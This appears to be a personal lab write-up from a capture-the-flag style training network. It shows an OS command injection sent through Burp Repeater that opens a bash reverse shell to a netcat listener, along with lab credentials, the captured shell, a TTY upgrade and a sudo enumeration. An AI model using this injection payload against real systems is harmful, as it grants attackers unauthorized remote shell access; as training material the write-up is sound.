## Netcat listener
Create a listener on your Kali Machine.
```
nc -lvnp 1337
```


## Burp Suite OS Command Injection
- Visit http://10.200.X.12/. You can get the IP from the VPN connection request.
	![[Reverse Shell-20240704140243868.webp]]
- Enter the following credentials:
	- User: laura.wood%40corp.thereserve.loc
	- Password: Password1@
- Click on the "Submit" button and send it to Proxy.
	![[Reverse Shell-20240704140643435.webp]]
- Click on submit.
- Send the request to "Repeater".
- Add the following code to the request: 
```
	+%26%26+bash+-i+>%26+/dev/tcp/<KALI MACHINE IP>/1337+0>%261
```

![[Reverse Shell-20240704142326775.webp]]

- Send the request.
- You'll get a reverse shell on your netccat listener.
	listening on [any] 1337 ...
	connect to [10.50.115.9] from (UNKNOWN) [10.200.118.12] 56484
	bash: cannot set terminal process group (982): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@ip-10-200-118-12:/var/www/html$


### Shell syntax

```
&& bash -i >& /dev/tcp/<KALI MACHINE IP>/1337 0>&1
```

1. `&&`: This is the logical AND operator in shell scripting. It is used to execute the following command (`bash -i ...`) only if the preceding command (`hacker`) succeeds without errors.
    
2. `bash -i`: This is a command to launch a new instance of the Bash shell (`bash`) with the `-i` option, which stands for interactive mode. Interactive mode allows for interactive input and output, typically used when interacting with a terminal.
    
3. `>& /dev/tcp/10.50.115.9/1337`: This portion of the command redirects both standard output (stdout) and standard error (stderr) to a TCP connection established to the specified IP address (`10.50.115.9`) and port (`1337`). This syntax is often used for network communication in shell scripting.
    
4. `0>&1`: This part of the command redirects standard input (stdin) to the same location as standard output (stdout). This can be useful for ensuring that input from the keyboard is also sent over the network connection.
    

In summary, the command appears to be attempting to establish a network connection to the specified IP address and port while also launching an interactive Bash shell.

### Sanitize the shell
To display the current user's sudo privileges. It shows which commands the user is allowed to run with sudo and any restrictions that may apply.
**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctrl + Z

stty raw -echo;fg
```

## sudoers


```
www-data@ip-10-200-113-12:/var/www/html$ sudo -l

```

User www-data may run the following commands on ip-10-200-113-12:  
(root) NOPASSWD: /home/ubuntu/openvpn-createuser.sh, **/bin/cp**

**Next step:** [[Connect via SSH (10.200.X.12)]]